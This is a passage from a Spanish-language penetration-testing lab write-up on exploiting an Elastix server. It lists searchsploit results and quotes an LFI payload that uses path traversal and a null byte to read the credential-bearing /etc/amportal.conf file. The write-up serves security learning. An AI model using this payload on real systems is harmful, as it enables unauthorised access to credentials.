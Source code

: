 <figure><img src="../../../.gitbook/assets/Puerto80.PNG" alt=""><figcaption></figcaption></figure>

#### Explotación

Buscamos con **searchsploit** vulnerabilidades que tenga `elastix` y vamos a probar el del **local file inclusion** que significa leer archivos de la maquina

```shell
> searchsploit elastix
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                     | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                   | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities             | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                          | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                         | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                        | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                    | php/webapps/18650.py
-------------------------------------------------------------------------- ---------------------------------
```

Según el script de perl hay una ruta donde se puede hacer el **local file inclusion**

```perl
> searchsploit -x php/webapps/37637.pl | grep "LFI Exploit"
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
